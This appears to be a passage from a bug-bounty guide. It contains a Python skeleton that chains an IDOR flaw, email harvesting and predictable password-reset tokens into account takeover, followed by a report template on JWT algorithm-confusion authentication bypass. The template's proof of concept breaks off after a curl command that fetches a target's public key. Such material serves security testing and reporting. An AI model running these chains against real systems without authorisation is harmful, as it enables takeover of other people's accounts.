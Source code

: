 ```python
# IDOR to Account Takeover Chain
class VulnerabilityChain:
    def __init__(self, target):
        self.target = target
        self.chain = []
    
    def exploit_idor_to_ato(self):
        # Step 1: Find IDOR in profile endpoint
        idor_result = self.find_idor("/api/user/profile")
        self.chain.append(("IDOR Found", idor_result))
        
        # Step 2: Extract email from other users
        emails = self.extract_user_emails(idor_result['vulnerable_endpoint'])
        self.chain.append(("Emails Extracted", emails))
        
        # Step 3: Use password reset with email
        reset_tokens = self.trigger_password_resets(emails)
        self.chain.append(("Reset Tokens", reset_tokens))
        
        # Step 4: Check for token predictability
        if self.analyze_token_pattern(reset_tokens):
            self.chain.append(("Predictable Tokens", "Critical"))
            return "CRITICAL: IDOR -> Email Extraction -> Predictable Reset Tokens -> Full ATO"
        
        # Step 5: Alternative - Check for email verification bypass
        if self.check_email_verification_bypass():
            self.chain.append(("Email Verification Bypass", "High"))
            return "HIGH: IDOR -> Email Change -> Account Takeover"
        
        return self.generate_impact_report()
```

**Report Template for Maximum Impact**:

```markdown
# [CRITICAL] Authentication Bypass via JWT Algorithm Confusion Leading to Full Administrative Access

## Summary
A critical vulnerability in the JWT implementation allows attackers to bypass authentication completely and gain administrative access to all user accounts and sensitive data.

## Vulnerability Details
- **Type**: Authentication Bypass (CWE-287)
- **Severity**: Critical (CVSS 9.8)
- **Affected Component**: `/api/auth/*` endpoints
- **Prerequisites**: None (unauthenticated attack)

## Technical Analysis
The application accepts JWT tokens signed with HS256 algorithm using the public RSA key as the secret. This allows an attacker to forge valid tokens with arbitrary claims.

### Root Cause
The JWT library fails to properly validate the algorithm specified in the token header against the expected algorithm, allowing algorithm confusion attacks.

## Proof of Concept

### Step 1: Obtain Public Key
```bash
curl https://target.com/.well-known/jwks.json | jq '.keys[0].x5c[0]' | base64 -d > public.pem
```
